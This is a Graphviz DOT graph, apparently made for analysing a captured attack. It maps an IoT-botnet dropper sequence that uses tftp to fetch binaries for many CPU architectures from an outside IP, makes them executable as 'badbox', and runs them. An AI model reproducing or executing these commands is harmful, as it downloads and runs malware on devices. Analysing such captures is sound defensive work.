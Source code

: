 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
112 [label="cd /tmp "];
112 -> 112
6 [label="tftp 62.4.1.192 -c get jackmymips "];
6 -> 8 [label=";,"];
8 [label="cat jackmymips badbox "];
8 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
18 [label="tftp 62.4.1.192 -c get jackmymipsel "];
18 -> 20 [label=";,"];
20 [label="cat jackmymipsel badbox "];
20 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
30 [label="tftp 62.4.1.192 -c get jackmysh4 "];
30 -> 32 [label=";,"];
32 [label="cat jackmysh4 badbox "];
32 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
42 [label="tftp 62.4.1.192 -c get jackmyx86 "];
42 -> 44 [label=";,"];
44 [label="cat jackmyx86 badbox "];
44 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
54 [label="tftp 62.4.1.192 -c get jackmyi686 "];
54 -> 56 [label=";,"];
56 [label="cat jackmyi686 badbox "];
56 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
66 [label="tftp 62.4.1.192 -c get jackmypowerpc "];
66 -> 68 [label=";,"];
68 [label="cat jackmypowerpc badbox "];
68 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
78 [label="tftp 62.4.1.192 -c get jackmyi586 "];
78 -> 80 [label=";,"];
80 [label="cat jackmyi586 badbox "];
80 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
90 [label="tftp 62.4.1.192 -c get jackmym86k "];
90 -> 92 [label=";,"];
92 [label="cat jackmym86k badbox "];
92 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
102 [label="tftp 62.4.1.192 -c get jackmyarmv4 "];
102 -> 104 [label=";,"];
104 [label="cat jackmyarmv4 badbox "];
104 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
121 [label="./badbox "];
121 -> 112 [label=";,"];
112 [label="cd /tmp "];
112 -> 112
114 [label="tftp 62.4.1.192 -c get jackmyarmv5 "];
114 -> 116 [label=";,"];
116 [label="cat jackmyarmv5 badbox "];
116 -> 118 [label=";,"];
118 [label="badbox "];
118 -> 118
120 [label="chmod +x * "];
120 -> 121 [label=";,"];
}
